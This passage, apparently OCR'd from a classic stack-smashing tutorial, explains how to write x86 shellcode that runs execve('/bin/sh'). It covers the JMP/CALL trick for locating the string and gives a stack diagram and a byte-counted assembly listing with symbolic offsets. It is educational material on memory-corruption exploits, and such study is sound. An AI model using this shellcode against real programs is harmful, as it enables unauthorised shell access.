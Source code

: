 \documentclass[10pt]{article}
\begin{document}
{\begin{verbatim}
movl   string_addr,string_addr_addr
movb   $0x0,null_byte_addr
movl   $0x0,null_addr
movl   $0xb,%eax
movl   string_addr,%ebx
leal   string_addr,%ecx
leal   null_string,%edx
int    $0x80
movl   $0x1, %eax
movl   $0x0, %ebx
int    $0x80
\end{verbatim}
/bin/sh string goes here.

The problem is that we don't know where in the memory space of the program we are trying to exploit the code 
(and the string that follows it) will be placed. One way around it is to use a JMP, and a CALL instruction. The 
JMP and CALL instructions can use IP relative addressing, which means we can jump to an offset from the 
current IP without needing to know the exact address of where  in memory we want to jump to. If we place a 
CALL instruction right before the "/bin/sh" string, and a JMP instruction to it, the strings address will be 
pushed onto the stack as the return address when CALL is executed. All we need then is to copy the return 
address into a register. The CALL instruction can simply call the start of our code above. Assuming now that J 
stands for the JMP instruction, C for the CALL instruction, and s for the string, the execution flow would now 
be: 

{\tiny
\begin{verbatim}
        bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
        memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
                   buffer                sfp   ret   a     b     c
        <------   [JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]
                   ^|^             ^|            |
                   |||_____________||____________| (1)
               (2)  ||_____________||
                     |______________| (3)
top of                                                                 bottom of
stack                                                                  stack
\end{verbatim}
}

[There are not enough small s in the figure; strlen("/bin/sh") == 7.] With this modifications, using indexed addressing, and writing down how many bytes each instruction takes our code looks like: 

\begin{verbatim}
jmp    offset-to-call           # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,array-offset(%esi)  # 3 bytes
movb   $0x0,nullbyteoffset(%esi)# 4 bytes
movl   $0x0,null-offset(%esi)   # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   array-offset(%esi),%ecx # 3 bytes
leal   null-offset(%esi),%edx   # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   offset-to-popl           # 5 bytes
\end{verbatim}
/bin/sh string goes here.

}
\end{document}
